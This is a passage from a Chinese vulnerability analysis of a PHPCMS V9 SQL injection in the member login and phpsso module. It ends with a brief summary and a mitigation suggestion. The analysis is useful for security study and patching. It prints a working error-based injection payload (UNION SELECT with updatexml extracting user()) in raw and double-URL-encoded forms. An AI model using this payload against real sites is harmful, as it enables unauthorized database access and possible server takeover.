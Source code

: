 由于这个问题我们不能在member的login中的第一个getone查询中进行注入，只好退而求其次，在之后的insert中实现注入攻击。

测试poc原文如下：

```
username=phpcms&password=123456&username=' union select '2','test\',updatexml(1,concat(0x5e24,(select user()),0x5e24),1),\'123456\',\'\',\'\',\'\',\'\',\'\',\'2\',\'10\'),(\'2\',\'test','5f1d7a84db00d2fce00b31a7fc73224f','123456',null,null,null,null,null,null,null,null,null#

```

编码后内容如下：

```

username=phpcms&password=123456%26username%3d%2527%2bunion%2bselect%2b%25272%2527%252c%2527test%255c%2527%252cupdatexml(1%252cconcat(0x5e24%252c(select%2buser())%252c0x5e24)%252c1)%252c%255c%2527123456%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%2527%255c%2527%252c%255c%25272%255c%2527%252c%255c%252710%255c%2527)%252c(%255c%25272%255c%2527%252c%255c%2527test%2527%252c%25275f1d7a84db00d2fce00b31a7fc73224f%2527%252c%2527123456%2527%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%252cnull%2523
```

效果如下图所示：

![1](/assets/images/2015-07/2015-07-21-poc.png)

## 0x04 总结

这个漏洞分析中，最大的收获是用到漏洞接力这种利用思路来完成由盲注到可报错注入的华丽转身。

### 漏洞小结

影响范围个人评价为“高”，PHPCMS在国内的使用范围非常广，而且此漏洞影响PHPCMS目前主流的V9版本，虽然收到PHP的版本影响，但是目前大多数的服务都已经开始更换PHP版本，所以影响范围还是很广的。

危害性个人评价为“高”，此漏洞只需要可以访问目标网站便可以实现攻击，获取数据库信息，并有很大的可能getshell。

### 防护方案

针对phpsso模块添加过滤代码，最好的方式应该是将转义和过滤放在数据库操作的前一步，这样可以极有效缓解SQL注入带来的问题。